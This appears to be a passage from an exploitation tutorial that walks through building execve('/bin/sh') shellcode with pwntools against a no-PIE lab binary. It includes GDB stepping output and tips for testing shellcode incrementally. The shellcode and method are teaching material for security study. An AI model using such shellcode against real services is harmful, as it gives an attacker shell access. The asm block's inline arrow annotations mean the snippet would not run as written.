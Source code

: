 Great! That is our single test instruction. The subsequent instructions are all uninitialized data (zeroes) which happen to correspond to the `add BYTE PTR [rax],al` op codes. These crash the system when we step into the shellcode, as shown below, but that is expected because we're only testing our first instruction:

```gdb
gef➤  si
gef➤  p/x $rax
$1 = 0x0
gef➤  si
 → 0x7ff3b6baa007                  add    BYTE PTR [rax], al
   0x7ff3b6baa009                  add    BYTE PTR [rax], al
   0x7ff3b6baa00b                  add    BYTE PTR [rax], al
   0x7ff3b6baa00d                  add    BYTE PTR [rax], al
   0x7ff3b6baa00f                  add    BYTE PTR [rax], al
   0x7ff3b6baa011                  add    BYTE PTR [rax], al
──────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "execve_shellcod", stopped 0x7ff3b6baa007 in ?? (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ff3b6baa007 → add BYTE PTR [rax], al
[#1] 0x4011de → main()
```

This example:
- no-PIE
- "/bin/sh" string is found in .data section of the binary already

Great, now we're ready to try out our shellcode. We'll use the fact that this is s a `no-pie` binary with a `/bin/sh` string in the binary's data section to set `rdi` and prepare `rsi`.  The trick for `rsi` is that we need a place in memory to write the `/bin/sh` pointer followed by a null pointer. We'll use the handy `two_quadwords` area of memory in the `bss` to write those addresses.

A handy resource for testing assembly outside of Python is the [Defuse assembler](https://defuse.ca/online-x86-assembler.htm). By setting the architecture to x64 we can quickly test assembly compilation before trying to throw it with `pwntools`.

> It's useful to test shellcode incrementally. Write a few instructions and see if they accomplish the intended behavior before moving on. For example, if we want to move the address of the `str` string into `rdi` we can assemble the `lea rdi, [0x402008]` instruction, send it in `pwntools`, and step through the instructions in the shellcode with `si`. Once we see the instruction execute we should test that `rdi` has its correct value by printing the string at `rdi` with `x/s $rdi` in GDB. Being rigorous in testing small, incremental changes can help us identify errors quickly rather than spending a lot of time debugging large changes where the error is not easily identifiable.

The following `pwntools` assembly mimics the operations we saw in the previous example to set up registers and perform a syscall. There are a variety of ways we could set the registers, so this is certainly not the only answer.

```python
# leverage pwntools ELF to find the symbol addresses for us and input
# as a format string
s = asm('''
mov rdx, 0x0
lea rdi, [{}] <--- {placeholder} for insertions
lea rax, [{}] <--- {placeholder} for insertions
mov qword ptr [rax], rdi
mov qword ptr [rax + 8], 0x0
mov rsi, rax
mov rax, 0x3b 
syscall
'''.format(e.symbols.str, e.symbols.two_quadwords))
```
